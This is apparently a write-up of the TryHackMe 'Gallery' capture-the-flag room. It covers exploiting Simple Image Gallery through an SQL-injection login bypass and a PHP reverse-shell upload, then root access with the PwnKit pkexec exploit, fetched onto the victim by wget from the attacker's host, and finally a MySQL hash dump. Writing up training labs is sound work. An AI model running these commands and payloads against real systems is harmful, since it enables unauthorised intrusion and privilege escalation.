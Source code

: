 # Tryhackme Gallery Room Writeup
  - Penetration Testing methodology
    - Scanning
      - Nmap Scan
    - Enumeration
      - Enumerating HTTP Service
      - Searching Exploit
      - Testing Login page
    - Exploitation
      - Reading exploit code
      - Trying exploit code
      - Finding another way to exploit cms
      - Uploading shell
    - Privilege Escalation
      - Enumerating kernel make
      - Searching Exploit
      - Compiling exploit
      - Transferring Binary
      - Getting Root Shell 
      - Getting Answers
  
  - Walkthrough
    - There are two flags to find in this room 1. User flag 2. Root flag
    - Scanning IP with Nmap we get following output
       ![1  Initialscanning](https://user-images.githubusercontent.com/75413146/153704382-d698aafd-0acd-4667-8d80-7eacdf409ee2.png)
      
      We can see that on port 80 and on port 8080 http service is running, By visiting to the IP:Port we can see that on port 8080 we see
        ![2  Visiting Simple Gallery Page](https://user-images.githubusercontent.com/75413146/153704486-a9180690-64ce-4a5c-ba51-31b2f9b857f9.png)
       I tried a payload of SQLi in Username : " ' or 1=1 -- " & Password : " a " but didn't worked.
        ![6  Running SQLi](https://user-images.githubusercontent.com/75413146/153704999-70b40ef8-a327-4027-8471-f8bbd85f7479.png)

      
      So the CMS is Simple Image Gallery after searching it for on searchsploit we get following output
        ![3  Searching Exploits](https://user-images.githubusercontent.com/75413146/153704567-3cfa0a88-6b6e-4b3b-a568-f7f4affb15f9.png)
      
      Copying the exploit to current directory.
        ![4  Copying exploit](https://user-images.githubusercontent.com/75413146/153704594-d69b866e-b8e5-47c1-8cd1-4f7417342785.png)
      
      # It's a good practice to read exploit. Even if you don't understand try to read some parts of it what and how it's doing. [ My Takeaway ]
      Before finding something i ran the code to check how the exploit works.
        ![5 4 Running Exploit](https://user-images.githubusercontent.com/75413146/153704677-b735eee4-ff08-427a-bb6b-96efaa237306.png)
      
      So the code was allowing us to execute commands via a parameter called cmd and it was uploaded in gallery/uploads directory. So i visited on the provided url and found that the code was executing. The output of whoami command.
        ![5 5 Running Exploit](https://user-images.githubusercontent.com/75413146/153704746-b20aaa41-24eb-4a83-ac47-446c4d5023e6.png)

      AFter a lot of tries to gain reverse shell through cmd parameter i was frustrated then in a try i read the code [ My Takeaway :D ] content as follows:
        ![5 1 Reading Exploit](https://user-images.githubusercontent.com/75413146/153704804-a53cb4c2-44d6-4ab8-b106-8cc1185751f9.png)
        ![5 2 Reading Exploit](https://user-images.githubusercontent.com/75413146/153704810-417bd80d-50a7-4d49-a4c9-9e0bfb3872ff.png)
        ![5 3 Reading Exploit](https://user-images.githubusercontent.com/75413146/153704800-f77a91f3-2e6f-4e4c-9c50-275d8a458ff8.png)
      
      While reading i encountered a line which seemed to me a SQLi payload see below :
        ![6  Reading Exploit](https://user-images.githubusercontent.com/75413146/153704955-8d4adc85-5e28-4e9e-9451-e9dded0f8310.png)
      
      So i got a hint that the payload which i was trying to use was not working for this room so i tried the payload which was used in exploit.
        ![6  Running simple cms exploit sqli payload](https://user-images.githubusercontent.com/75413146/153705095-858cd49c-0e39-474f-9db9-42d53c81adf5.png)
       And boooom !! i was not expecting this but it worked...
        ![7  We r in](https://user-images.githubusercontent.com/75413146/153705113-9e1847a3-3a5e-474f-a3cc-db6d6d9106fc.png)
       
       OKK !! We are in so now while walking an application i found a page " Albums " So after visiting i saw upload functionality.
        ![7 1 moving](https://user-images.githubusercontent.com/75413146/153705192-774e205e-dbc9-4382-bd2f-bec004592da2.png)

       I thought let's give it a try to upload a PHP reverse shell by Pentest Monkey ( can be found in /usr/share/webshells/php/ or can be found on google coz it's famous revershell script so will be easy to find ). 
       
       So edited my reverse shell with my IP and my favorite port
        ![6  3 Editing shell IP](https://user-images.githubusercontent.com/75413146/153705281-c31231ce-9b1a-4304-9b27-c9a443c1f54a.png)
       BTW out-of-topic : I am using 1337 coz not of i am leet but i want to be leet XD #HECKUR MINDSET
       
       Uploading the PHP Reverse Shell and listening on localhost via nc -lvnp 1337 [ for me it's 1337 you use what you typed the port to in script ]
        ![7 2 Upload shellcode](https://user-images.githubusercontent.com/75413146/153705349-6173c59a-3551-42d8-8a3e-edcd6d32d468.png)
        
       Shell Uploaded successfully !!!!
         ![7 3 Shell uploaded](https://user-images.githubusercontent.com/75413146/153705426-d93f1a53-2e47-4554-baa8-e7b0a1bba390.png)
         
       By clicking on the script you uploaded you can activate the shell. But don't forget to listen before you activated the shell.
        ![9 got shell](https://user-images.githubusercontent.com/75413146/153705457-65d471d2-b5ee-472c-b64d-a9f493d78b4e.png)
        
      Whoop Whoop we got shell... OKKK first things first let's stabilise our shell. I learned stabilising from What the Shell room on Tryhackme.
      - export TERM=xterm
      - which python3 [ Will allow to know what python is installed ]
      - python3 -c 'import pty;pty.spawn("/bin/bash")'
      - press CTRL+Z to bcakground the shell and also run the command on attacker machine
      - stty raw -echo ; fg
      - reset
      - [ This commands will give us a fully functional shell ]
        ![9 1 Stabilising shell](https://user-images.githubusercontent.com/75413146/153705566-476dfb91-8360-49e3-8670-4435c3b80777.png)
      By resetting you get your shell reset like below a clean shell :D
  - Privilege Escalation TIIIIIIIIIIIME !!!!
      - For privesc you can run linpeas or any other script or may enumerate manually for escalation.
      - But in this writeup we will run PwnKit to learn some new about POLKIT pkexec module exploit. The exploit code can be found here -> https://github.com/ly4k/PwnKit/blob/main/PwnKit.c 
        ![10  enumerating privesc](https://user-images.githubusercontent.com/75413146/153705878-b9531579-e336-44f6-bc6f-a5f328428b81.png)
      - Let's do this...
      Compiling the code by 
      - gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
         ![11  1 pkexec binary](https://user-images.githubusercontent.com/75413146/153705895-3944080b-9a45-4fda-ab70-b09be5dc796c.png)
        We got the binary compiled and now let's move this to victim host.
        - 1st host a server on attacker machine we can do this by [Note : Host the server where your binary file is ! ]
          - Command : python3 -m http.server 80
        - 2nd  Go to victim terminal and download the binary by following 
          - Command : wget http://[attackerIP:PORT]/file_name
            ![12  Tranferring binary](https://user-images.githubusercontent.com/75413146/153705932-8b8fc8a4-8b4c-4c3b-bd0a-c459c21fbfc6.png)
            
            Also note the workding directory i am in /dev/shm. You must have a writable permission on a directory. Like /tmp or /dev/shm or /var/tmp
            Now we got the binary so let's make it executable by using command : 
              - chmod +x PwnKit
        Let's now run the binary 
          ![13  Got Shell](https://user-images.githubusercontent.com/75413146/153706089-1213c008-3b53-42d1-b140-c7ccdd2a82d2.png)
        
        Controlling Emotions of getting root shell ;-;
          So let's get the flags and end it ASAP.
          - /home/mike has user.txt
          - /root/ has root.txt
            ![13  Flags txt](https://user-images.githubusercontent.com/75413146/153706142-3bab8ddf-4894-42aa-8841-063eefd5e45d.png)
        Also we need hash of an admin user to complete the room
          - Use command netstat -altuopn for checking the services runnning on localhost
          - We can see 3306 is running which is mysql port.
          - Using mysql -u root -p [use password as root]
          - accessing the database.
          - and we got the admin hash submitting it and ok the room has been completed.
            ![14  databases](https://user-images.githubusercontent.com/75413146/153706239-3c34e211-ac40-44b8-bea1-97ed28ac16e1.png)
            ![14 2 databases](https://user-images.githubusercontent.com/75413146/153706246-a4230f42-9b67-4820-895e-dd7e3d34aec5.png)
            ![14 3 database hash](https://user-images.githubusercontent.com/75413146/153706249-57ca5fea-01e4-4fc7-88a2-1ef0184433f2.png)

# If any suggestions please advice.
